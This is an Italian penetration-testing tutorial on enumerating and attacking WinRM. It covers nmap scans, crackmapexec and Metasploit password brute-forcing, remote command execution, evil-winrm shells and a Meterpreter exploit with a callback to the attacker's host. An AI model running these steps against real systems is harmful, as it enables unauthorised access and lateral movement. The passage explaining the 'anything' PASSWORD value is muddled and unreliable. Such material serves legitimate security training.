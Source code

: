 # WinRM Enumeration

WinRM (Windows Remote Management) è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. È basato su HTTP e HTTPS, e le sue porte predefinite sono:

- `5985/TCP` per HTTP
- `5986/TCP` per HTTPS

WinRM viene usato in ambienti Windows moderni, soprattutto in Active Directory, per gestire sistemi da remoto. Se correttamente configurato, può essere un punto d’accesso molto potente per un attaccante.

## Attenzione alla scansione

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>`

Oppure, per script specifici:

`nmap -p 5985 --script http-winrm-info <IP>`

Questa scansione verifica se WinRM è attivo e restituisce informazioni come header HTTP, certificati e dettagli del server.

## Enumerazione e attacco con CrackMapExec

Per attaccare WinRM è molto utile il tool `crackmapexec`, che supporta vari protocolli di Windows. Per visualizzare tutti i moduli e opzioni disponibili, esegui:

`crackmapexec`

Per effettuare un attacco di brute-force sul servizio WinRM:

`crackmapexec winrm <IP> -u <username> -p <wordlist>`

Un ottimo punto di partenza è usare come username `administrator`, poiché è il primo utente generato quando WinRM viene attivato ed è dotato di privilegi amministrativi.

Se una password valida viene trovata, puoi rieseguire lo stesso comando con la password corretta e aggiungere `-x "<comando>"` per eseguire comandi remoti:

`crackmapexec winrm <IP> -u administrator -p Password123 -x "whoami"`

Puoi così eseguire `whoami`, `systeminfo`, `hostname` o altri comandi informativi.

## Accesso interattivo con Evil-WinRM

Per ottenere una vera e propria shell PowerShell remota, usa `evil-winrm`:

`evil-winrm.rb -u <username> -p '<password>' -i <IP>`

Questo comando apre una sessione interattiva da cui puoi:

- Eseguire comandi PowerShell
- Caricare o scaricare file
- Lanciare script di post-exploitation
- Raccogliere informazioni sulla macchina e sulla rete

## Brute-force con Metasploit

Metasploit include un modulo per tentare il login sul servizio WinRM in modo automatico. È utile se vuoi testare più combinazioni di credenziali in un attacco dizionario.

Apri `msfconsole` e utilizza il modulo:

`use auxiliary/scanner/winrm/winrm_login` <br>
`set RHOSTS <IP>` <br>
`set USERNAME <username>` <br>
`set PASS_FILE <path_alla_wordlist>` <br>
`set PASSWORD anything` <br>
`run` <br>

Questo modulo tenterà tutte le password contenute nella wordlist indicata per lo username specificato. È utile anche per testare una lista di utenti con:

`set USER_FILE <lista_utenti>` <br>
`set PASS_FILE <lista_password>` <br>

Attenzione perché questo modulo specifico richiede comunque che venga impostata l’opzione `PASSWORD`, altrimenti non potrà procedere all'esecuzione del payload remoto. In contesti in cui non hai la password reale (ma per esempio solo l’hash), puoi semplicemente usare un valore qualunque, come la stringa `anything`.

Questo funziona perché il modulo non verifica la correttezza della password prima dell’esecuzione: la connessione e l’autenticazione sono già state risolte dalla sessione stabilita, ma il modulo necessita comunque che il campo PASSWORD sia popolato per non generare errori di esecuzione.

Può essere una buona alternativa a `crackmapexec` in ambienti dove preferisci restare dentro Metasploit o tracciare tutto in sessioni di lavoro.

## Enumerazione dei metodi di autenticazione

Prima di tentare qualsiasi attacco di brute-force o accesso interattivo, è buona pratica usare il modulo `auxiliary/scanner/winrm/winrm_auth_methods`. Questo modulo ti permette di verificare quali metodi di autenticazione sono abilitati sul servizio WinRM.

Può mostrare, ad esempio, se il server accetta:

- Autenticazione di tipo base (username/password in chiaro)
- Autenticazione NTLM (usata con hash o per pass-the-hash)
- Autenticazione Kerberos (nei domini Active Directory)

Per utilizzarlo:

`use auxiliary/scanner/winrm/winrm_auth_methods` <br>
`set RHOSTS <IP>` <br>
`run` <br>

Il suo output ti aiuterà a capire qual è il metodo di attacco più adatto. Ad esempio:

## Esecuzione di comandi remoti con winrm_cmd di Metasploit

Se hai ottenuto delle credenziali valide (username e password), ma non vuoi, o non puoi, usare strumenti esterni come `evil-winrm`, puoi eseguire comandi remoti direttamente da Metasploit grazie al modulo:

`auxiliary/scanner/winrm/winrm_cmd`

Questo modulo ti consente di inviare ed eseguire un singolo comando PowerShell sul sistema target tramite WinRM. È molto utile in fase di verifica, soprattutto quando vuoi testare rapidamente se le credenziali funzionano oppure per eseguire piccoli comandi diagnostici (`whoami`, `hostname`, `ipconfig`, ecc.) senza stabilire una sessione interattiva.

A cosa serve?
- Verificare se le credenziali funzionano prima di passare a shell o exploit più complessi.
- Eseguire comandi silenziosi e mirati in ambienti con sorveglianza attiva o logging pesante.
- Testare permessi e contesto utente (es. capire se sei Administrator, se hai accesso a cartelle specifiche, ecc.).
- Può essere utile per ambienti in cui le policy di sicurezza bloccano strumenti esterni o eseguibili come evil-winrm.

Ricorda che puoi usare questo modulo più volte, modificando ogni volta il valore di CMD per inviare comandi diversi e costruirti così un piccolo profilo del target senza bisogno di stabilire una sessione persistente.

## WinRM con Metasploit – Accesso Meterpreter

Esiste anche un exploit in Metasploit per ottenere una sessione Meterpreter tramite WinRM:

`use exploit/windows/winrm/winrm_script_exec`

Configura i seguenti parametri:

- `set RHOST <IP>`
- `set LHOST <tuo_IP>`
- `set USERNAME <utente>`
- `set PASSWORD <password>`
- `set FORCE_VBS true`

### Cosa fa FORCE_VBS?

WinRM supporta l’esecuzione remota di script in PowerShell, ma a volte i permessi o le policy locali bloccano certi tipi di comandi interattivi. L'opzione `FORCE_VBS true` forza l'esecuzione dello script tramite un wrapper in VBScript, che spesso **bypassa restrizioni di esecuzione o policy di gruppo** troppo restrittive. Questo aumenta la compatibilità e l'affidabilità dell'exploit in ambienti più protetti.

## Considerazioni finali

WinRM è uno dei metodi più potenti per accedere da remoto a macchine Windows in modo completamente interattivo. È sicuro solo se ben configurato e filtrato via firewall. Se trovi le porte 5985 o 5986 aperte e riesci a ottenere le credenziali, puoi:

- Ottenere shell con privilegi elevati
- Eseguire lateral movement
- Eseguire escalation di privilegi
- Lanciare exploit o script direttamente in memoria

Per questo motivo, ogni volta che trovi WinRM attivo, va considerato un obiettivo critico.
